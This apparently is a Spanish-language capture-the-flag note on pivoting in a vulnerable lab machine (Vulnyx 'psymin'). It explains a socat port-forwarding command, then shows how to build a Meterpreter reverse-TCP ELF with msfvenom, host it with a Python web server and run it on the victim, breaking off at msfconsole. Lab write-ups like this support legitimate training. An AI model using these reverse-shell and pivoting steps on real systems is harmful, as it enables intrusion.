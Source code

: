 PORT FORWARDING

realiza una redirección de puertos (port forwarding) para permitir que conexiones externas al puerto 10001 se redirijan al puerto 10000 en localhost (la misma máquina víctima)

socat TCP-LISTEN:10001,fork TCP4:127.0.0.1:10000&

socat:
Herramienta para crear conexiones bidireccionales entre dispositivos, puertos, archivos, etc. Es como una navaja suiza para redes.

TCP-LISTEN:10001,fork:

TCP-LISTEN:10001: Escucha conexiones entrantes en el puerto 10001 (TCP).

fork: Permite aceptar múltiples conexiones simultáneas (sin este parámetro, socat se cerraría tras la primera conexión).

TCP4:127.0.0.1:10000:

Redirige el tráfico recibido en el puerto 10001 al puerto 10000 en la dirección local (127.0.0.1, IPv4).

&:
Ejecuta el proceso en segundo plano (para que no bloquee la terminal).

referencia máquia psymin vulnyx


otra forma:

al hacer ss -tuln

Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port 

tcp  LISTEN  0    128    127.0.0.1:22        0.0.0.0:*   

Netid  -> tcp  
State  ->  LISTEN  
Recv-Q -> 0
Send -> 128    
Local Address:Port -> 127.0.0.1:22
Peer Address:Port -> 0.0.0.0:*


Primero, obtengamos un shell en Metasploit y luego realicemos el reenvío de puertos. Hay muchas otras maneras de realizar el reenvío de puertos, pero la de Metasploit es más simple y sencilla. Para obtener un shell en Metasploit, primero cree un archivo elf con msfvenom y luego enviar a la máquina víctima mediante un servidor Python3.

msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=IP-kali LPORT=PORT-KALI -f elf -o shel.elf

lo suimos a la máquia víctima:

# Python server
$ python3 -m http.server 80

una vez subida le damos chmod +x shel.elf

msfconsole -q
